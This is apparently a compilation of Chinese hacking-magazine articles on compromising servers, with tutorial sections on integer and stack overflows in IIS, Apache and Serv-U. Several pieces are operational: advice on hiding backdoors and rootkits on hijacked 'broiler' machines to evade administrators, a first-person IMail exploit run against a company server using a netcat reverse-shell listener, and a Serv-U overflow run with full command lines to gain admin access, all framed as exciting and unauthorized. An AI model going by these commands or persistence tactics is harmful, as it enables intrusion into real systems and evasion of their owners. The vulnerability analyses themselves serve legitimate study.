首先拍拍 wtf 的马屁：这小子上次在黑防攻防实验室上说的那句话：“兄弟们千万不要拘泥于思维的定式，要知道安全最重要的就是思维的锻炼和意识的培养，为了锻炼大家的思维能力，友情提醒一下大家，我们在关卡中有很多的陷阱哦！千万不要被表面的现象迷惑了！”不要小看了这句话，把这句话放到网络入侵和攻击中，很多思维被发散出来，那是整体层次的提高！就拿我们的后门这方面来讲，同样是上面几个功能强大、隐蔽性好的后门，为什么你装在肉鸡上，不出三天就被查杀了？而别人装上就一直用得好好的呢？这其中其实就是思维转换重要性的体现，下面我们将具体说说后门程序如何才能做到好的思维转换和特点利用，先来看看普通网友的误区：

- 1. 普通安全爱好者都能通过常见的系统漏洞或者其他途径入侵服务器，然后上去就是新建一个账户，直接添加到管理员权限，有点意识的还能在账户后面加上一个 $ 让别人在 cmd 无法发现，然后再通过什么 3389、23 控制服务器，汗！这就是你看《黑客防线》的成绩？《黑客防线》就这样教你？难道所有管理员都是白痴？都不知道检查系统最重要的账户？这样的肉鸡几天之内不丢都是个奇迹！
- 2. 控制服务器 -> 上传后门 -> 开放特定端口 -> 利用后门控制服务器，这中间通过 findpass 之类的经典工具得到管理员的密码，给服务器开放 3389 等服务……同样送给这样的朋友一个字：晕！一个简单得不能再简单的 netstat -an 就能让你的连接暴露无疑！那时候等着上法庭吧！
- 3. 亵渎系统内置账户并使用它来登录服务器，这同样是一个不可取的方法，根据我的经验，这样的肉鸡肯定用不长！一两周就飞掉了！
- ……

上面只是一些比较低端的错误，相信大家在看了此文后不会再犯这样的错误了！下面我们说说常见的比较安全的入侵后控制肉鸡的办法，如果我今天讲的东西能有两、三句能让你在以后的入侵和安全防护中记住，那我就倍感欣慰了！

普通的入侵过程中，3389 当然是大家最喜欢的控制方式，那为什么就只用 3389 来单纯地控制服务器呢？当别人关掉 3389 后你怎么控制呢？所以需要后门，那安装上普通的经典后门，为什么我的肉鸡还是在很短的时间内飞掉呢？——请注意，任何一个系统管理员都不是白痴！不管你多“黑”，你远程控制服务器总没有别人物理接触来得方便吧！万不得已人家拔掉网线、格式化硬盘总能让你不能控制了吧？！所以，后门的隐藏性是非常重要的，要让管理员无法发现系统中有后门就是非常重要的了！

一个好的后门，能实现单一的功能就行了，一定不要经常使用你的后门程序来控制肉鸡，这样你想肉鸡不飞都困难，比较好的方法是：

```text
3389/23 + 扩展型后门 + rootkit
```

这是到目前为止最经典的一种后门搭配方式，它几方面的优点显而易见：对方发现有不明 IP 连接的时候肯定会检查系统问题，改 system 密码，清理账户是不可避免了，进而管理员会对系统的漏洞进行一次常规的升级和检测，补上最开始被我们入侵的漏洞，这样如果没有后门，再进来就很难了。

通常这样的情况下管理员会考虑系统中是不是存在后门，使用常见的杀毒软件、安全程序来检查系统，发现后门立即查杀，所以在这里后门的隐藏性非常重要，一旦被杀，game over！所以这里一定要选择一些比较难查杀或者是加过壳的后门，上面的介绍的后门就是不错的选择，线程插入方式是比较难被杀掉的。

在这样的基础上，如果他发现系统中某个程序总是在对网络连接，或者是某个端口总是有人连接在上面，管理员肯定会想办法 kill 掉这个程序，所以普通后门再隐藏得好也是会被查杀的，这也是大多数朋友的疑惑了，在这里就需要使用 rootkit 了！

如果从系统级隐藏掉服务名、进程、端口、注册表值、启动项目、程序名，那现在相信普通的杀毒程序、安全工具要查出系统中的后门程序是很难的！而这点，才是后门程序的精华所在：隐藏！这样的功能，绝对不是某个后门程序单一使用能实现的！而 rootkit 和上面介绍的一系列后门中的精品就是你最好的选择！多尝试，相信你一定能找到这个经典搭配中的优势的！退一万步讲，如果这样控制的肉鸡都飞掉了，奉劝大家还是少玩为妙，免得惹火上身哦！

> **编后：**
>
> 看了上面的文章，说实话，刘流心中很不安宁。现在的网络安全事业早不是原来的基础阶段了，一个好的网络管理员首先就要掌握很多攻击和入侵的方法，不然很小一个疏忽就能让他威风扫地！
>
> 本文从技术上讲比较适合初、中级读者阅读，但思维上绝对是比较主流的经典思路了，相信大家在看这个文章后一定会有股按捺不住的冲动的，不要等了，自己去实验吧！成功是属于你的！

脚本小子：今天突然接到一273℃发来的 QQ 消息：“我成功利用 IMail 漏洞，得到了肉鸡，system 权限！”我听了后心里咯噔一下，影响真是非同小可，因为 IMail Server 是 Windows 操作系统上的第一个邮件服务器软件，迄今已逾 10 年。根据统计，全球有超过 4900 万的来自不同行业的用户选择了 IMail 作为他们的邮件服务平台。如果 IMail 真有能取得 System 权限的漏洞，那后果……真是不敢想像呀！于是立即请一273℃一起研究了此漏洞，以及漏洞的临时防御方法，撰写了本文。

## 被人遗忘的漏洞：IMail 溢出

文／图 一273℃ [HBU]

放假了，告别了学校的宽带，回到家中的小猫（有种返璞归真的感觉），虽然慢了点，但是也有好处嘛（至少有独立 IP 了 ^_^），正在安全站点看资料，老爸突然闯进来非让我去他公司的网站看看，无奈，谁让是老爸给我装了小猫呢！打开 IE，输入公司的网址 www.xxx.com.cn，看了一下页面，都是纯 HTML 的页面，没什么好看的。老爸看了一会，也觉得没什么意思就走了。我仔细看了一下，反正没什么事，我倒要看看你们的安全到底怎么样！

用 ping 得出老爸公司的 IP 地址为 218.5.xxx.xxx，不用说调出 xscan 2.3 扫描器来狂扫一通……结果却让人很扫兴，如图 1 所示。

除了开了几个常见端口外，没有任何可以利用的东西了。汗！没想到这样小小的公司的网络安全性会如此高？看来网络安全已经深入人心了！

不放弃！又拿出 superscan4 来全面地扫描了一遍，报告一样是没什么结果，除了可以匿名登录 ftp 外（这个我试过了，没什么可以利用的），正在我决定放弃了（心里还在暗想：“算你狠！”），无意中看到我宝贝工具箱里静静躺着的 xscan 3.0vbeta3，还没有被解压缩呢。抱着试试看的心情（听说 xscan 3.0 增加了对很多漏洞的探测能力），将所有的扫描模块全部选上，然后就是焦急地等待 ing！过了 N 分钟，结果终于出来，大体一看报告似乎没什么……等等，发现了一个 vulnerability！如图 2 所示。


图 1


图 2

漏洞描述如下：

> The remote POP3 server might be vulnerable to a buffer overflow bug when it is issued at least one of these commands, with a too long argument:
>
> auth  
> user  
> pass
>
> If confirmed, this problem might allow an attacker to execute arbitrary code on the remote system, thus giving him an interactive session on this host.

图 3 所示。


图 3

大体意思是，远程 POP3 服务器可能存在缓冲区溢出漏洞，以下命令：auth、user、pass，当跟有超长参数后就会引发缓冲区溢出，导致攻击者可以远程执行任意命令！

哈！我差点兴奋得跳了起来，立刻向上查找扫描报告，找到了 pop3 服务器的 banner，如下：

```text
220 aaaaaaa-lqxlrzb (IMail 7.11: 2228-2) NT-
ESMTP Server X1.
```

原来是 IMail！这个漏洞我很早就听说过了，说是成功利用后可以得到 system 权限！乖乖，我的收藏箱里应该有这个 exploit！哈哈，在一个角落里找到了，可是只有 shellcode，难道要自己写？可是我连漏洞的溢出原理都还没搞清楚，于是上网找寻该漏洞相关资料，资料很容易找到了，大体看了一下，原来 IMail 被安装后，默认打开一个 Web Messaging 的守护进程在 8383 端口，该守护进程调用 Imailsec.dll 来处理超长的请求时会引发缓冲区溢出。明白了原理，匆匆忙忙写出 exploit（主动连接型，开对方 813 端口），马上尝试溢出，可是不知道是对方装了防火墙还是本身 exploit 的问题，就是不能成功得到 shell！我要绝望了！花了 N 分钟，收拾了一下自己的心情，打开搜索引擎，我就不信没人写过这个漏洞的 exploit！过了 N 个小时了，就在我找到花儿也谢了的时候，上天终于不忍心了，终于找到了！马上把 exploit 复制粘贴到本地，看了一下，发现该 exploit 是在 Linux 下写的，没关系，我有 cygwin，马上调出来，编译连接，成功了！如图 4 所示。

运行一下看看（需要 cygwin1.dll 来支持）：

```text
IMail 7.11 remote exploit (SYSTEM level)
2c79cbe14ac7d0b8472d3f129fa1df55
(c79cbe14ac7d0b8472d3f129fa1df55@yahoo.com)

compiled under cygwin by 无敌最寂寞@s8s.net

usage: imail <targethost> <webport> <localhost>
<localport>

webport: IMail Web Messaging port (default 8383)
```

看完说明信息就知道这个程序的使用方法：imail 目标 IP 目标端口（默认是 8383） 本地 IP 本地监听端口

这个工具是反向连接的 shell，我是猫，有独立 IP，这个难不倒我！马上在本地开一个 cmd 窗口，输入 nc -vv -l -p 813，然后再开启一个 cmd 窗口，输入溢出命令：

```text
imail 218.5.xxx.xxx 8383 61.162.xxx.xxx
813
```

等待了 2 秒左右，终于看到那可爱的 shell 了！如图 4 所示。

我该怎么来形容我当时的心情呢？马上尝试添加用户，如图 5 所示，果然是 system 权限！

也许安全检测到此结束了，有些朋友看了这篇文章后有可能会说，不就是一次溢出攻击嘛！确实不

图4

图5

不错，就是一次普通的溢出攻击。可是这反映出一个问题，做安全真的很难！目标主机从整体来看，安全性已经做得很好了，开放了最少的端口，漏洞也是少得可怜（估计也就这一个致命的漏洞没能补上），但是一个方面没有想到，就会导致整个防御系统的崩溃！这就要求我们这些搞安全的，知识面一定要广，一个细微的漏洞都不能放过！

我写这篇稿子的另一个原因是，这不是个小小漏洞！IMail是第一个商业版的 mail 服务端软件，已经拥有了4000多万的用户，而且大部分用户还是在使用 7.11 版本的 IMail。不信？用扫描器扫描一下 25、110 还有 8383 端口，并获取 25 端口的 banner，看看是不是像我说的那样？如图6所示。这还是扫的那个 IP 段，结果就这么多！

图6

明白我的意思了吧？阿门，愿上帝保佑他们！

### 编后

看完此文，小编不由感到背后发凉，因为小编的朋友所在的大型国有企业就买了不少 Mail 服务器，马上按本文所述的方法照猫画虎，居然也得到了一台肉鸡，而且确实都是 system 权限。尤其我那朋友的服务器，本来也经过了一番安全加固了，自以为可以抵挡一阵了，谁想到，也正因为这台服务器安装了 IMail，结果，正是从这不起眼的地方，看起来固若金汤的系统被攻克了。对于黑客而言，如果盯上的目标很难下手的话，要记住“不敌其力，而消其势，兑下乾上之象。”好，让我们接着看作者撰写的另一篇——《IMail 漏洞的防御》。

## Tips：如何产生溢出？

什么是溢出？数据存储过程中超过数据结构所能容纳的实际长度都可称为溢出！产生溢出的理论基础：

- 1. 平面内存结构，4GB 或更大逻辑地址空间，程序运行时可以被装载到相对固定的地址空间，使得确定攻击代码地址更为方便。
- 2. 数据与代码同处于一个地址空间，堆栈可执行，代码数据共同存储，这一现代计算机模型使得溢出攻击真正可行，攻击者可以精心编制输入数据，得到运行权。
- 3. CPU 的 call 调用利用栈保存返回地址。call 调用使用堆栈保存返回地址，使得篡改程序返回地址成为可能。
- 4. C 函数在栈中保存局部变量。看一下现代几乎所有的编译器产生的代码，就会发现它所有调用子程序的地方都有类似代码。
- 5. C 语言无自动边界检查功能。C 语言不进行数据边界检索，当数据被覆盖时也不能被发现。
- 6. 栈从高地址往低地址生长；数据存放是从低到高存放的，而堆栈却从高到低生长。当 call 调用子程序时的返回地址将被压入堆栈，这就是说当发生 call 调用时，程序返回地址将位于子程序数据区的高处，使恶意覆盖返回地址成为可能，只要精心安排输入数据就可以使执行类似 ret 的指令时，跳转到所需要的地址！溢出发生！

```asm
push ebp
mov ebp, esp
sub esp, ??
```

## 整型溢出原理及实例

脚本小子：溢出漏洞在网络安全领域中永远是一个不容忽视的角色，它的危害性之大，涉及范围之广，已经到了“路人皆知”的程度，它可以存在于各种操作系统、应用软件中。它可以导致程序运行失败、系统当机、非法获取系统特权。它被网络管理员所“深恶痛绝”，但却能给 Hacker 带来“欣喜若狂”的感觉！……我晕，故我在！

- 难度等级：高级
- 前置知识：溢出原理及基本知识

文／isno

因为最近几年一直都在跟踪网络安全领域内的新漏洞，所以特别强烈地感觉到出现的系统漏洞有越来越难利用的趋势。以 IIS 的溢出漏洞为例，从前几年的 .htr 映射的溢出漏洞、.printer 映射的溢出以及后来的 .ida/.idq 溢出，一直到去年的 .asp 溢出，真的是一次比一次难以利用了，攻击成功的概率越来越小。究其原因，就是因为软件厂商的安全意识越来越强，像用 strcpy 直接拷贝 buffer 造成溢出的这种低级漏洞几乎是再也不可能出现了。

即便是这样，也并不意味着以后再也不会出现漏洞了，因为攻击技术也是在不断发展的。像最近整型溢出又是比较热门的东西，因为最近一些比较严重的漏洞都是由于整型溢出造成的，例如 IIS ASP 溢出、Apache 分块编码溢出、OpenSSH 响应机制溢出等等。虽然这种溢出本身并没有什么高深之处，但是也有必要进行总结，因为今后在这方面很可能会产生相当多的漏洞。

从这个角度来说，格式化字符串漏洞应该不属于溢出的范围。

传统的溢出一般都是发生在字符串类型数据上面，用户提交的数据超出程序分配的字符串大小，造成覆盖系统数据结构，最终导致程序流程改变。而整型溢出，顾名思义就是由用户提交的整型数据超出程序内部对整型数的安全要求，造成违反原来的程序限制，导致其他类型的溢出。一般来说，整型溢出并不能直接导致改变程序流程，它是由整型溢出造成字符串类型的溢出，从而导致覆盖系统数据结构、改变程序流程。

值得注意的就是程序内部对整型数的安全数据范围要求，而不是仅仅字符串数据范围的要求，这是整型溢出的根本原因，下面将详细介绍。

## 整型溢出与传统溢出的共性和区别

首先应该明确所谓“溢出”的概念，根据我的理解，应该是程序外部的数据大小超出了原数据类型所能表达的范围，造成某些错误的操作。这里所提到的数据类型不仅仅是字符串类型，也包括整型、无符号整型甚至布尔类型等一切由程序外部所提供的数据。

## 什么是整型数溢出

### 1. 计算机中的整数概念

在计算机中，整型的概念就是一个特定的变量类型。在不同的 CPU 系统上被编译处理后，整型和指针的尺寸一般是相同的。例如，在 32 位的系统中，比如 x86，一个整数是 32 位；而在 64 位的系统中，比如 SPARC，一个整数是 64 位长。本文中所谈到的例子是在 32 位的系统环境和 32 位的整数，并且用 10 进制来表示它。

但是仅仅是这样还不够，因为这样还无法表示负数，所以就需要一种机制仅仅用位来代表负数，通过一个变量的最高位来决定正负。如果最高位置 1，这个变量就被解释为负数；如果置 0，这个变量就解释为正整数。因此，通常的高级语言中都有有符号整型（int）和无符号整型（unsigned int）之分，下面我们就要讨论这两种整型数所带来的安全问题。

### 2. 对整型数的安全要求

一般程序员写程序，对于整型数仅仅考虑使用范围，而不考虑它的安全要求。对于不同用途的整型数，其安全要求也不相同。例如，最容易出问题的是由用户提交的用作长度变量的整型数，对其他部分数据的安全要求往往集中在上面。用作长度的变量一般要求使用无符号整型数。在 32 位系统中，无符号整型数（unsigned int）的范围是从 0－0xffffffff，不仅要保证用户提交的数据在此范围内，还要保证对用户数据进行运算并存储后仍然在此范围内。

## 整型数溢出的成因分类

整型数溢出从造成溢出原因的角度来说可以分为 3 大类：存储溢出、计算溢出和符号问题。下面就分别来谈谈它们之间的共性和区别：

### 1. 存储溢出

存储溢出是最简单的一类，也很容易理解。简单说就是使用不同的数据类型来存储整型数造成的。例如下面程序所示：

```c
int len1 = 0x10000;
short len2 = len1;
```

由于 len1 和 len2 的数据类型长度不一样，len1 是 32 位，而 len2 是 16 位，因此进行赋值操作后，len2 无法容纳 len1 的全部位，导致了与预期不一致的结果，即 len2 等于 0。

看到这里读者可能会想，只要不把长类型的变量赋给短类型变量就行了。其实并不是那么简单，把短类型变量赋给长类型变量同样存在问题，例如如下代码：

```c
short len2 = 1;
int len1 = len2;
```

上面代码的执行结果并非总是如预期的那样使 len1 等于 1，在很多编译器编译的程序中结果是使 len1 等于 0xffff0001，实际上就是一个负数。这是因为当 len1 的初始值等于 0xffffffff，而把 short 类型的 len2 赋值给 len1 时只能覆盖掉其低 16 位，这就造成了安全隐患。

### 2. 运算溢出

运算过程中造成的整型数溢出是一种最常见的情况，很多著名漏洞都是由这种整型数溢出所导致的。它的原理很简单，就是对整型数变量进行运算过程中没有考虑到其边界范围，造成运算后的数值超出了其存储空间，例如下面伪代码：

```c
bool func(char *userdata, short datalength)
{
    char *buff;

    if (datalength != strlen(userdata))
        return false;
    datalength = datalength * 2;
    buff = malloc(datalength);
    strncpy(buff, userdata, datalength);
}
```

其中 userdata 是用户提交的字符串，datalength 是用户提交的字符串长度。func() 函数所作的就是首先保证用户提交的字符串长度和字符串的实际长度一样，然后分配一块 2 倍于用户提交字符串大小的缓冲区，然后把用户字符串数据拷贝到这个缓冲区当中。这看起来应该是没有任何安全问题的，实际上不然，程序员仅仅考虑了对字符串数据的安全要求，却没有考虑对作为整型数的长度变量的数据类型的表示范围。

说得更明确点就是 datalength*2 以后可能会超出 16 位 short 整型数的表示范围，造成 datalength*2 < datalength。假如用户提交的 datalength = 0x8000，如果正常情况下 0x8000×2 = 0x10000，但是当把 0x10000 赋值给 short 类型变量时，最高位的 1 会因为溢出而无法表示，这时的 0x8000×2 = 0 了。也就是说，在上面例子程序中，如果用户提交的 datalength >= 0x8000，那么就会发生溢出。

下面我们来看一个运算整型数溢出实例：IIS ASP 映射溢出分析。

去年 eEye 发现的 ASP 堆溢出应该算是比较典型的运算造成的整型数溢出。以前的 IIS 映射溢出都出现在对字符串操作使用错误的长度限制，这次的 ASP 溢出虽然也不例外，但是与以往不同的是，这次是因为一个长度变量计算过程中的整型数溢出造成的。我们来看看对 asp.dll 反汇编的分析结果。

这是对 asp 的 ecb->lpbData 数据进行处理的函数的反汇编代码。

```asm
.text:7499DD63 sub_7499DD63 proc near
CODE XREF:
.text:7499DD63 var_14 = byte ptr -14h
.text:7499DD63 var_8  = dword ptr -8
.text:7499DD63 var_4  = dword ptr -4
...
此时 ebx 指向 ecb（EXTENSION_CONTROL_BLOCK）结构
.text:7499DD7F mov esi, [ebx+7Ch]
ecb+0x7c 是 lpszContentType 变量
...
.text:7499DE04 mov eax, [ebx+70h]
ecb+0x70 就是 cbTotalBytes 变量
```

cbTotalBytes 就是用户提交的 Content-length，也就是用于指明 lpszContentType 的长度，如果用户不提交这个变量，IIS 则把它自动赋予为 0xffffffff。

```asm
.text:7499DE07 mov edi, [ebp+var_8]
.text:7499DE0A lea ecx, [eax+eax+2]
这里计算 dwBytes = cbTotalBytes*2+2
```

因为把 cbTotalBytes*2+2 以后就可能超出 32 位数的表示范围，因此造成溢出：

```asm
.text:7499DE0E mov eax, [edi+20h]
.text:7499DE11 mov edx, [eax+0B8h]
.text:7499DE17 test edx, edx
.text:7499DE19 jnz short loc_7499DE33
.text:7499DE1B push 0F60h
```

```asm
.text:7499DE20 push offset aFNTPrivateIn_7 ; "F...\nt\private\inet\iis\sys\cimp\asp\req"
.text:7499DE25 push ecx ; dwBytes
.text:7499DE26 mov [eax+0B8h], ecx
.text:7499DE2C call sub_74972561
```

这里会调用一个函数进行内存分配，分配的大小就是 cbTotalBytes*2+2。

```asm
.text:74972561
.text:74972561 push [esp+dwBytes] ; dwBytes
.text:74972565 push 0 ; dwFlags
.text:74972567 push hHeap ; hHeap
.text:7497256D call ds:HeapAlloc
.text:74972573 retn 0Ch
```

后面的函数就会把从网络接受的数据 buffer 内容拷贝到这个动态分配的堆内存当中，这时就出现了问题。

```asm
.text:7499DE75 mov dword ptr [eax+0A4h], 2
.text:7499DE7F mov ecx, [ebx+70h] ; cbTotalBytes
.text:7499DE82 mov eax, [ebx+74h] ; cbAvailable
.text:7499DE85 cmp ecx, eax
.text:7499DE87 ja short loc_7499DEA5
```

用 C 语言的伪代码来表示上面的代码就是这样的：

```c
if(cbTotalBytes > cbAvailable) copylen = cbAvailable
else copylen = cbTotalBytes
```

然后下面会用 repe movsd 进行内存复制操作：

```asm
...
.text:7499DEA5 mov esi, [ebx+78h]
; 这个是 lpbData
.text:7499DEA8 mov ecx, eax
.text:7499DEAA mov eax, [edi+20h]
.text:7499DEAD mov edx, [ebp+var_8]
.text:7499DEB0 mov edi, [eax+0B4h] ; buff [0xB200]
.text:7499DEB6 mov eax, ecx ; ecx = cbAvailable = 0xc000
.text:7499DEB8 shr ecx, 2
.text:7499DEBB repe movsd
.text:7499DEBD mov ecx, eax
.text:7499DEBF and ecx, 3
.text:7499DEC2 repe movsb  ; 内存复制操作
```

在这里进行字符串复制的时候溢出，分配的 heap buffer 大小为 cbTotalBytes*2+2，如果 cbTotalBytes > cbAvailable，那么拷贝的长度是 cbAvailable，也就是说拷贝长度取 cbTotalBytes 和 cbAvailable 中比较小的一个，cbAvailable 的最大值是 0xc000，lpbData 可装载的数据最大也是 0xc000。

因为整型数溢出：cbTotalBytes*2+2 << cbTotalBytes，所以分配的 heap buffer 可能是很小的，造成复制 0xc000 bytes 的数据就会造成堆溢出，覆盖堆内存之间的管理结构，从而可能造成改变程序的流程。

这个溢出要在下一次进行内存分配的时候显现出来：

```asm
.text:7499576E push 8 ; dwBytes
.text:74995770 mov [ebp+var_4], esi
.text:74995773 mov [ebp+var_8], esi
.text:74995776 mov [ebp+ppv], esi
.text:74995779 call sub_74992561
```

这里分配了 8 个字节，上一次造成的溢出被显现出来了。

### 3. 符号问题

正如前面所提到过的那样，整型数是分为有符号整型数和无符号整型数的，由于符号的问题也可能引发安全方面的隐患。一般对长度变量都要求使用无符号整型数，如果程序员忽略了符号的话，在进行安全检查判断的时候就可能出现意想不到的情况。由符号引起的溢出最典型的例子是去年 eEye 发现的 Apache HTTP Server 分块编码漏洞。下面我们就来分析一下这个漏洞的成因。

分块编码（chunked encoding）传输方式是 HTTP 1.1 协议中定义的 Web 用户向服务器提交数据的一种方法，当服务器收到 chunked 编码方式的数据时会分配一个缓冲区存放之，如果提交的数据大小未知，客户端会以一个协商好的分块大小向服务器提交数据。

Apache 服务器缺省也提供了对分块编码支持。Apache 使用了一个有符号变量储存分块长度，同时分配了一个固定大小的堆栈缓冲区来储存分块数据。出于安全考虑，在将分块数据拷贝到缓冲区之前，Apache 会对分块长度进行检查，如果分块长度大于缓冲区长度，Apache 将最多只拷贝缓冲区长度的数据；否则，将根据分块长度进行数据拷贝。然而在进行上述检查时，没有将分块长度转换为无符号型进行比较。因此，如果攻击者将分块长度设置成一个负值，就会绕过上述安全检查，Apache 会将一个超长（至少 > 0x80000000 字节）的分块数据拷贝到缓冲区中，这会造成缓冲区溢出。

http_protocol.c 中的具体引发漏洞的代码如下：

```c
API_EXPORT(long) ap_get_client_block
(request_rec *r, char *buffer, int bufsiz)
{
    // 漏洞就发生在这个函数里面，其中 bufsiz 是用户提交的 buffer 的长度，这里是一个有符号的整型变量

    len_to_read = (r->remaining > bufsiz) ? bufsiz : r->remaining;
    // 这里判断 bufsiz 和 r->remaining 哪个小，就用哪个作为拷贝字符的长度，如果用户提交的 buffer 长度即 bufsiz 超过 0x80000000 的时候，由于 bufsiz 是有符号的整型数，因此它一定是一个负数，所以它就肯定会小于 r->remaining，这样就绕过了安全检查。

    len_read = ap_bread(r->connection->client, buffer, len_to_read);
    if (len_read <= 0) {
        r->connection->keepalive = -1;
        return -1;
    }
}
```

我们再来看看 ap_bread() 函数的处理：

```c
API_EXPORT(int) ap_bread(BUFF *fb, void *buf, int nbyte)
{
```

网络盛行时代的漏洞层出不穷，大则系统漏洞，小则程序漏洞，没想到 Serv-U FTP 服务器也存在大的缺陷……前段时间 Serv-U 设计上的不足就成为我们研究的对象，现在又出现了远程溢出漏洞！怕啊！精彩的文章就在本期，大家尽情品尝吧！

## Serv-U FTP Server 远程溢出抢鲜体验

文／图 羽艺

## 相关信息

发布日期：2004年1月29日

远程溢出获超级管理员权限：是

本地溢出提升为管理员权限：是

溢出前提条件：在 FTP 服务器里必须有可写入的账号权限

穿越防火墙：是

受影响的版本信息：Serv-U FTP Server V4.1.0.11 以及以前的任何版本

受影响的系统信息：

- Microsoft Windows 95
- Microsoft Windows 98
- Microsoft Windows 98 SE
- Microsoft Windows ME
- Microsoft Windows NT 4.0
- Microsoft Windows 2000
- Microsoft Windows XP
- Microsoft Windows 2003 Web Edition
- Microsoft Windows 2003 Standard Edition
- Microsoft Windows 2003 Enterprise Edition 64-bit
- Microsoft Windows 2003 Enterprise Edition
- Microsoft Windows 2003 Datacenter Edition 64-bit
- Microsoft Windows 2003 Datacenter Edition

不受影响的版本信息：

Serv-U FTP Server V5.0.0.0


图 1

## 漏洞概述

RhinoSoft 出品的该 FTP 服务器现在已遍布各大、中、小服务器，虚拟网站的服务器更是居多！它的优点我就不多重复啦，一个字：“棒”！但是，KKQQ 是个厉害的家伙，发现了这个程序的漏洞，前文有很详细的漏洞分析，我就不敢鲁班门前耍大斧了，我们来看看这个漏洞的入侵实例吧！GOGOGO！

## 溢出实战

前些天我朋友刚刚去买了个空间，支持 ASP，让我帮着做做网站，并给了 FTP 账号。想想还有几天才开学，就爽快地答应下来。登录上去一看，哇！好家伙，竟然 FTP 里空空如也，这不明摆着打算要累死我嘛！呵呵~~先不管这些，看看网站安全情况如何，“该你上场了哦。”只见 superscan3 迈着矫健的步伐上场了。

先扫描一下服务器，扫描结果如图 1：不是吧？！只开这么少的服务？135、139、445 都关了，看来肯定是防火墙的作用。

前段时间曾经介绍过如何用 ASP 木马配合 Serv-U 提升权限，正好可以一试！经过查找发现 FTP 服务器是默认安装在 `C:\Program Files\Serv-U`。仔细一找，咦？怎么没有看到 FTP 账号信息？如图 2 所示：


图 2

怎么只有注册 FTP 的信息？郁闷中！看来这个网管不错，已经发现这一缺陷，把账号信息储存在注册表了！怎么办呢？这可难不倒我，请出我们今天的主角：lion 发布的 Serv-U FTP Server 长文件名堆栈溢出漏洞攻击代码，然后编译，在 CMD 下运行，如图 3 所示：


图 3

```text
Servu <-i ip> <-t type> [-u user] [-p pass] [-d dir] [-f ftpport] [-c cbhost] [-s shellport]
```

使用参数：

参数解释：

- `<-i ip>` ............. 对方 IP
- `-t type` .......... `0`（只有一个参数可选，适用任何系统）
- `[-u user]` .......... 具有可写入权限账号的用户名
- `[-p pass]` .......... 该用户名的密码
- `[-d dir]` .......... FTP 里指定某个文件夹可写并指向该文件夹
- `[-f ftpport]` .......... FTP 开的端口（默认是 21）
- `[-c cbhost] [-s shellport]` .......... 这里可以省略不加该参数！

OK！参数搞清楚了，我们就开始溢出喽~（台下掌声不断，谢谢谢谢~）

```text
Servu.exe -i 61.152.**.*** -t 0 -u qingkong -p woyaolhquk -f 21
```

> 脚本小子：有的 FTP 并不是根目录就可写入，这样我们就要再加上 `[-d dir]` 参数！假如可写的目录为“\yuyi”，那我们的参数就要改成：


```text
Servu -i 61.152.102.82 -t 0 -u qingkong -p woyaolhquk -d \yuyi -f 21
```

如图 4 所示。

不看不知道，一看吓一跳！溢出后居然马上直接连接对方 C 盘！理论上穿越了防火墙，真是一个强悍的溢出程序呀！我们再来试试权限如何，添加一个管理员并把他提升为超级管理员试试。如图 5 所示。

操作成功！嗯！就这样轻松搞定！（台下欢呼声不断~~）就这样简单！一个服务器的权限就被我拿到了！由此可见，此漏洞的攻击性是多么强！劝大家慎用此漏洞！广大网管也小心了！注：文章所提过的工具光盘中有收入！

- `Servu.exe`：溢出程序
- `superscan3`：扫描软件
- `Serv-U FTP Server V5.0.0.0`：破解 + 汉化补丁


### 编后语

> 看完这篇文章，还在用 Serv-U FTP 的网管们！快把你们的“宝贝”升级到 `5.0.0.0` 版本吧！不然自己辛辛苦苦的服务器要付之东流了。

脚本小子：Serv-U 是很多站点使用的 FTP 服务器端，如果这个服务器端出现漏洞，对我们的网络来说影响可就大了！这不，最近绿盟就发布了 Serv-U 存在溢出漏洞的安全公告！相信关注漏洞的你都知道了这个事吧！同时，继 Fishsky 在我们《黑防》首发了 RPC 漏洞后，这次 KKQQ 也是自己发现的漏洞！并在较短的时间内通知了我们，多谢大家对《黑防》的信任和支持！希望越来越多的朋友能发现漏洞并通知我们，我们会及时地告诉广大朋友的！

今天，我们就把发现漏洞的原作者请到《黑客防线》，亲自为大家分析这个漏洞的前因后果！这可是一个很好的学习机会哦，大家可不要错过！

难易程度：高级

适合对象：网络安全分析者、汇编爱好者

文／KKQQ

## 我是这样发现 Serv-U FTP 溢出漏洞的

大家好，偶是 KKQQ，第一次来《黑客防线》做客。应《黑客防线》编辑部的邀请，偶在这里为大家做一下“Serv-U 最新安全公告之远程 Serv-U 远程漏洞”的一些介绍。相信大家都看到了我发布的关于这个漏洞的 Exp 程序了吧，这篇文章除了向大家介绍 Serv-U 远程漏洞之外，还会涉及一些 Serv-U 的漏洞发掘方法探讨，如有不足的地方还请大家提出。

- 1. Serv-U 漏洞介绍
- 2. Serv-U 漏洞详细分析
  - Serv-U 漏洞溢出原因
  - 写权限的要求
- 3. Serv-U 漏洞发现过程中的一些问题
  - 错误模式
  - 自动化发现的障碍
- 4. Serv-U 相关的其他信息

## Serv-U 漏洞介绍

Serv-U 在处理“site chmod”命令的过程中，如果没有考虑到长文件名，将会触发一个典型的堆栈溢出，通常情况下，这个漏洞可导致攻击者获得服务器上 Serv-U 运行的权限，一般来说就是 Windows 系统中的 administrators 组或者是 system 组（如果 Serv-U 以系统服务的形式运行）的权限，但这个漏洞的利用有一个前提，就是必须在用户登录到 FTP server 以后对一个目录或者文件有可写权限。

## 漏洞详细情况

### Serv-U 漏洞溢出原因

这里我们具体来看一下 Serv-U 漏洞的详细情况，首先我们来看一段汇编代码，这段代码就是 Serv-U 处理“site chmod”命令的具体代码（以 Serv-U 4.1.3 版本的反汇编为例）：

```asm
text:004194DB AF8    push    [ebp+value]    ; value
text:004194DE AFC    push    0FFFFFFFFh     ; int
text:004194F0 B00    push    4B4h
text:004194F5 B04    lea     eax, [esi+cmdStruc...]
unkn_struc_8488]
text:004194FB B04    push    eax            ; int
text:004194FC B08    call    sub_41434
text:00419501 B08    add     esp, 0Ch
text:00419504 AFC    push    eax            ; format
text:00419505 B00    lea     edx, [ebp+buffer]
text:0041950B B00    push    edx            ; buffer
text:0041950C B04    call    _sprintf
text:00419511 B04    add     esp, 0Ch
text:00419514 AF8    lea     ecx, [ebp+buffer]
text:0041951A AF8    push    ecx
text:0041951B AFC    push    esi
```

